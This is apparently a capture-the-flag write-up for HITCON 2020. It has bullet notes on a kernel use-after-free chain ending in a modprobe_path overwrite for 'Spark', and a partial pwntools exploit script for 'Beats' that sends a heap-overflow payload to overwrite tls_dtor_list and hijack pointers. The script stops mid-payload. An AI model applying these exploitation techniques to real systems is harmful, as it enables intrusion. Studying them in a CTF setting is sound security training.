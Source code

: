 ### Spark
- Crash to leak kernel heap and stack address.
- Overwrite Node struct using distance array by UAF.
- Use `msgsnd` `msgrcv` to change `index` of UAF node repeatly.
- Use `dis[edge->node->index]` to arbitrary write.
- Write value to userland and search offset.
- `modprobe_path`
https://github.com/yuawn/CTF/tree/master/2020/hitcon/spark

### Beats

```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '18.178.221.5'
port = 4869

binary = "./beats"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

if len(sys.argv) == 1:
  r = remote("127.0.0.1" ,4869)
  #r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

def rol(val, r_bits, size=64):
    return (val << r_bits%size) & (2**size-1) | \
           ((val & (2**size-1)) >> (size-(r_bits%size)))


if __name__ == '__main__':
  r.recvuntil(":")
  r.sendline("1")
  r.recvuntil(":")
  tls_dtor_list = 0x404110
  r.sendline(p32(0x19) + p32(0xb) + p64(0x4040a0) + "D"*0x48 + p32(0x19) + p32(2) + p32(0x19) + p32((0x224a8+8 + 0x80)/8) + p32(0x19) + p32((0x20f00)/8) + cyclic(0x21000) +   p64(0x426690) + cyclic(0x22458-0x21008) + p64(0x4040a0) + p64(0x4444444444)*6 + p64(tls_dtor_list) + p64(0x404000) +"\x00"*0x80 ) # calloc 0x21000 size chunk & heap overflow will overwrite tls_dtor_list & function pointer gruad(fs:0x30)
  r.recvuntil(":")
  r.sendline("2")
  r.recvuntil(":")
  puts_plt = 0x0401140
  read_n = 0x0401413
  setvbuf_got = 0x403fe0
  r.send("1".ljust(0x10,"A"))
  payload = p64(0) + p64(0x81) + p64(rol(puts_plt,0x11)) + p64(setvbuf_got) + p64(0x434110) + p64(0x404110+0x100) + p64(0x21)*0x10
```